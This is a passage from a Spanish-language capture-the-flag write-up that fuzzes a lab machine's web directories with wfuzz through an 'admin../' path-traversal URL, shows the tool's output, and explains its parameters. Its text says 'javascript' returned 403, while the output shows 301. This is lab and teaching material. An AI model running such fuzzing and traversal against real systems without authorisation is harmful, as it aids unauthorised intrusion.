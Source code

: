 Interesante...

Ahora obtenemos un código de estado `403 Forbidden`.

Probemos ahora a _fuzzear_ rutas a partir de esta, en mi caso usaré `wfuzz`:

```bash
┌─[z3r0byte@z3r0byte]─[~]
└──╼ $ wfuzz -c --hc=404,401 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -u http://10.10.10.249/admin../FUZZ -t 150
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.10.249/admin../FUZZ
Total requests: 220547

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                   
=====================================================================

000000001:   403        9 L      28 W       274 Ch      "http://10.10.10.249/admin../"                                                                                            
000001060:   301        9 L      28 W       314 Ch      "javascript"                                                                                                              
000045227:   403        9 L      28 W       274 Ch      "http://10.10.10.249/admin../"                                                                                            
000095511:   200        105 L    306 W      5349 Ch     "server-status"                                                                                                           

Total time: 0
Processed Requests: 220547
Filtered Requests: 220543
Requests/sec.: 0
```

| Parámetro | Acción |
|:---------:|:-------|
| `-c` | Reporta el output del programa con colores |
| `--hc` | Acrónimo de _hide code_ que sirve para ocultar respuestas según su código de estado |
| `-w` | Este parámetro sirve para especificar un diccionario con el cual se _fuzzeará_ |
| `-u` | Parámetro usado para especificar el target |
| `FUZZ` | Esta palabra la deberemos colocar donde queramos que la herramienta _fuzzee_ |
| `-t` | Este parametro hace referencia a la palabra _threads_ y sirve para enviar peticiones simultaneamente haciendo el _fuzzeo_ más rápido |

Vemos una ruta con nombre `javascript` con un _status code_ `403 Forbidden` y otra ruta con nombre `server-status` en la cual tenemos un _status code_ `200 OK`
